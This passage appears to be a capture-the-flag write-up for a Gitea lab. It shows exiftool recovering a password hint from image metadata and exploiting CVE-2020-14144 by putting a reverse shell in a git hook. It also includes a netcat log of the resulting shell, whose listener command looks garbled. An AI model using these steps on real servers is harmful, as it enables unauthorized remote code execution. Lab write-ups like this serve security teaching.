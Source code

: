 Using **exiftool** to retrieve user **scones** password .

```
┌──(root💀kali)-[~/thm/gitsandcrumpets]
└─# exiftool 3fc2cde6ac97e8c8a0c8b202e527d56d.png                                                                                                          

ExifTool Version Number         : 12.36
File Name                       : 3fc2cde6ac97e8c8a0c8b202e527d56d.png
Directory                       : ..
File Size                       : 279 KiB
File Modification Date/Time     : 2022:02:10 10:09:37-05:00
File Access Date/Time           : 2022:02:10 10:09:37-05:00
File Inode Change Date/Time     : 2022:02:10 10:09:37-05:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 290
Image Height                    : 290
Bit Depth                       : 16
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Description                     : My 'Password' should be easy enough to guess
Image Size                      : 290x290
Megapixels                      : 0.084
```
Now after logging in to the website as scones ,we see that the user has access to modify git hooks .

>Git hooks are **scripts that run automatically every time a particular event occurs in a Git repository**.

## CVE-2020-14144

There is a CVE exploit for **git hooks** feature in Gitea 1.1.0 to 1.12.5  through which we could get a reverse shell .
This works for
Blog post for this Githooks RCE - https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/

Edit the contents of git-hook with a reverse shell one-liner & click on **Update hook.**

![header](../../assets/img/posts/Gitandcrumpets/website10.png)

Make changes in README.md file & commit the changes to trigger a callback.

![header](../../assets/img/posts/Gitandcrumpets/website11.png)

We get a connection back on our machine & we are user `git` on the machine!
```bash
┌──(root💀kali)-[~/thm/gitsandcrumpets/cant-touch-this]
└─# nc -lvnp 9001/9001 0>&1

listening on [any] 9001 ...
connect to [10.17.6.87] from (UNKNOWN) [10.10.59.255] 37618
bash: cannot set terminal process group (869): Inappropriate ioctl for device
bash: no job control in this shell
[git@git-and-crumpets cant-touch-this.git]$ whoami
git
```
I uploaded my ssh-public keys and ssh'ed into the machine & grabbed the user flag 🚩.
```bash
┌──(root💀kali)-[~]
```